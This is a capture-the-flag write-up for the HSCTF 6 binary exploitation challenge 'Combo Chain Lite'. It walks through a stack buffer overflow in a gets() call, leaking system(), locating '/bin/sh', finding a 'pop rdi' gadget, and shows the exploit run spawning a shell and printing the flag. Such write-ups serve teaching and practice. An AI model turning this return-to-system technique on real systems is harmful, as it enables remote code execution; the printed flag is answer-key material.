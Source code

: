 # Combo Chain Lite

| Event | Title | Category | Cost |
|:------|:----------|:---------|-------:|
| HSCTF 6 | Combo Chain Lite | Binary Exploitation | ~250 |

### Discription
> Written by: Ptomerty
>
> Training wheels!
>
> nc pwn.hsctf.com 3131
>
> Note: If you're trying to use python or a similar program to run your exploit, make sure to keep stdin alive with cat, like this: (python; cat -) | nc pwn.hsctf.com <port>

### Information
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

### Solution

Simple buffer overflow with address of `system()` and sting `bin/sh`

```C
void vuln() {
	char dest[8];
	printf("Here's your free computer: %p\n", system);
	printf("Dude you hear about that new game called /bin/sh");
	printf("? Enter the right combo for some COMBO CARNAGE!: ");
	gets(dest);
}
```

We should cautch `system()` address with regexp:

```python2
SYSTEM = int(re.findall(r"computer: (.*)", data)[0], 16)
```

Get `/bin/sh` address from binary:

```sh
dbg> find 0x400000,0x403000,"/bin/sh"
0x402051
1 pattern found.
dbg> x/s 0x402051
0x402051:	"/bin/sh"
```

Count padding before return address - 8b buf + 8b ebp = 16b

And find ROP gadget to pass argument to `system()` (We need $RDI, because of gcc and x64)

```sh
$ ROPgadget --binary combo-chain-lite | grep "pop rdi"
0x0000000000401273 : pop rdi ; ret

```

It`s enough to wtite an [exploit](https://github.com/Red-Cadets/HSCTF-6/blob/master/Binary%20Exploitation/Combo%20Chain%20Lite/exp.py).

After we can run it and get the flag.

```sh
$ ./exp.py 
[+] Opening connection to pwn.hsctf.com on port 3131: Done
Here's your free computer: 0x7fd7b60ba390

[*] Switching to interactive mode
# cat flag
hsctf{wheeeeeee_that_was_fun}
```

##### Flag

```
hsctf{wheeeeeee_that_was_fun}
```
